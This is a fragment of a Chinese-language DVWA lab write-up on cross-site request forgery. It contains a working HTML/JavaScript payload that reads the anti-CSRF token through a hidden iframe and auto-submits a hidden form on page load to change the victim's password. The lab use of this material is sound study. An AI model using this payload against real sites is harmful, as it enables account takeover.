 ![image-20220505225416763](./Lab3_CSRF.assets/image-20220505225416763.png)

构造一个假的页面，放在服务器

```html
<script type="text/javascript">
    function attack()
  {
   document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
  document.getElementById("transfer").submit(); 
  }
</script>
 
<iframe src="http://192.168.109.136/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">
</iframe>
 
<body onload="attack()">
  <form method="GET" id="transfer" action="http://localhost/dvwa/vulnerabilities/csrf">
   <input type="hidden" name="password_new" value="password">
    <input type="hidden" name="password_conf" value="password">
   <input type="hidden" name="user_token" value="">
  <input type="hidden" name="Change" value="Change">
   </form>
</body>
```
